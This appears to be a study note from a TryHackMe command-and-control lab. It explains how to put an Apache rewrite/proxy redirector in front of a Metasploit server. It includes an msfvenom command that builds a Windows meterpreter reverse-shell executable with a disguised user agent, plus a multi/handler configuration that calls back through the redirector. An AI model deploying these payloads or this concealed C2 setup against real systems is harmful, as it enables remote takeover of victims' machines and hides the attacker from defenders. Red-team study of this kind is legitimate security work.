 # Improving Existing C2 Setups

## C2 Redirectors

Redirects HTTP/HTTPS request based Request Body, in the context production systems redirectors come in the form of a Load Balancer, similarly in the context of C2 Redirector sits between C2 server and Victim. For securities sake the Redirector needs to sit in front of both a C2 server and a Firewall to only accept valid interactions between C2 and victims.

#### Setup and Configuration
Enable relevant modules for C2 and Server:
Rewrite, to write rules to forward requests
Proxy and Proxy_\* - protocol 
Headers

The [THM Intro to  C2 Room](https://tryhackme.com/room/introtoc2) uses Apache2 and Metasploit
```bash
# Install Apache
apt install apache2
# Setup modules
a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
# MSFvenom alterations
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

Note the use of `HttpUserAgent` parameter.

Now edit the apache2 configuration file found on debian based systems: `/etc/apache2/sites-available/000-default.conf`.

To enable the [mod_rewrite](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html)(check this link for a complete list of HTTP Request Targets) we must add `RewriteEngine On` onto a new line in the VirtualHost section.  

Then use a Regex so the server will **only** capture the NotMeterpreter User-Agent. adding the subsequent line `RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"`

Finally adding thing ProxyPass feature of Apache's [mod_proxy](https://httpd.apache.org/docs/2.4/howto/reverse_proxy.html):  `ProxyPass "/" "http://localhost:8080/"`

Configure payload with advance options requires, for a list for each payload: 
```bash
msfvenom -p <payload> --list-options
```

Configure MSFconsole's multi/handler appropiately with examplification of advance use below:

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
msf6 exploit(multi/handler) > set OverrideLHOST <rediretor IP> # Override to match our setup
msf6 exploit(multi/handler) > set OverrideLPORT 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
msf6 exploit(multi/handler) > run
```


## References

[THM Intro to  C2 Room](https://tryhackme.com/room/introtoc2)
[Rewrite Engine](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html)
[mod_proxy module](https://httpd.apache.org/docs/2.4/howto/reverse_proxy.html)